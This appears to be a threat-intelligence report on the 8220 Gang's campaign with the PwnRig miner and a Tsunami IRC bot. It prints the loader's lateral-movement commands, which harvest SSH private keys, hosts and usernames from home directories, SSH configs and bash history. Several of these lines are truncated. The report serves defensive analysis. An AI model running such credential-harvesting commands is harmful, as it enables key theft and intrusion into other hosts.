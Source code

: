 Key Points
 

A new cluster of activity links the 8220 Gang to a campaign of infecting hosts, primarily through common cloud services, with a custom miner and IRC bot for further attacks and remote control.
PwnRig, a custom XMRig-based miner variant, attempts to conceal its configuration details and makes use of a mining proxy to prevent the public from monitoring its pool details. We’re providing a dump of all samples, their build IDs, associated C2 server(s), and mining wallets.
The modified IRC, Tsunami-based, bot is also installed on victim machines. We’re providing a dump of the illicit miner samples, their configured C2 server(s), in addition to the IRC channel configured for automated botnet access.

 
Loader Infection Process
The infection process for this activity is very similar to other common loaders that we’ve reported on in the past, making use of commonly reused functions. The overall objective is to prepare the victim host for infection, download and execute proper versions of PwnRig miner and the Tsunami IRC bot, gain persistence, attempt lateral movement, and clean up forensic artifacts. This infection is done through a loader shell script, likely delivered through various n-day exploits for popular services such as Redis and Apache. All actions are automated based on the script execution and are likely opportunistically run. A look at a recent sample (D646f450ec5b2e1e04c962350fa430b9651fbcb33a8c39571126e49d6edb5cf1) shows various noteworthy design characteristics. Various embedded scripts are included through the base64 encoded data set as a variable in the primary loader, as can be seen in the cron modifications for persistence at line 140.

Figure 1. Base64 Encoded Script Example 
Additionally, the localgo function execution for lateral movement collects the following information for use:
 
KEYS:
 

~/ /root /home -maxdepth 3 -name 'id_rsa*' | grep -vw pub
~/.ssh/config /home/*/.ssh/config /root/.ssh/config | grep IdentityFile | awk -F "IdentityFile"

~/.bash_history /home/*/.bash_history /root/.bash_history | grep -E "(ssh|scp)" | awk -F ' -i ' 
~/ /root /home -maxdepth 3 -name '*.pem

HOSTS:

~/.ssh/config /home/*/.ssh/config /root/.ssh/config | grep HostName | awk -F "HostName" 
~/.bash_history /home/*/.bash_history /root/.bash_history | grep -E "(ssh|scp)" | grep -oP "([0-9]{1,3}\.){3}[0-9]{1,3}")
~/.bash_history /home/*/.bash_history /root/.bash_history | grep -E "(ssh|scp)" | tr ':' ' ' | awk -F '@' 
/etc/hosts | grep -vw "0.0.0.0" | grep -vw "127.0.1.1" | grep -vw "127.0.0.1" | grep -vw $myhostip | sed -r '/\n/!s/[0-9.]+/\n&\n/;/^([0-9]{1,3}\.){3}[0-9]{1,3}\n/P;D' | awk
~/*/.ssh/known_hosts /home/*/.ssh/known_hosts /root/.ssh/known_hosts | grep -oP "([0-9]{1,3}\.){3}[0-9]{1,3}" | uniq)
auxw | grep -oP "([0-9]{1,3}\.){3}[0-9]{1,3}" | grep ":22" | uniq)

USERS:

find ~/ /root /home -maxdepth 2 -name '\.ssh' | uniq | xargs find | awk '/id_rsa/' | awk -F'/' '{print $3}' | uniq | grep -wv ".ssh"
cat ~/.bash_history /home/*/.bash_history /root/.bash_history | grep -vw "cp" | grep -vw "mv" | grep -vw "cd " | grep -vw "nano" | grep -v grep | grep -E "(ssh|scp)" | tr ':' ' ' | awk -F '@' '{print $1}' | awk '{print $4}' | uniq)
